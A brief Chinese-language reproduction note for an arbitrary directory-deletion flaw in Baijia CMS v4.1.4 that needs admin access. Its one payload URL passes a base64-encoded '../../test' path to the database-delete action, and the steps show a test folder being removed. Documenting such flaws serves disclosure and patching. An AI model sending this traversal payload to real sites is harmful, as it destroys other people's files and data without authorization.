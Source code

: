 # 百家cms v4.1.4 任意路径删除漏洞

### 一、漏洞简介

### 二、漏洞影响

百家cms v4.1.4

### 三、复现过程


```bash
# 需要后台权限
# 只能删除路径
http://url/index.php?mod=site&act=manager&do=database&op=delete&id=Li4vLi4vdGVzdA==&beid=1
```

根目录下创建test文件夹，里面有内容为123的test.txt文件

![](images/15896947059513.png)


访问payload

将参数转为base64并方位payload

![](images/15896947158846.png)


![](images/15896947204141.png)


查看文件夹，已被删除

![](images/15896947274238.png)


参考链接

https://xz.aliyun.com/t/7542
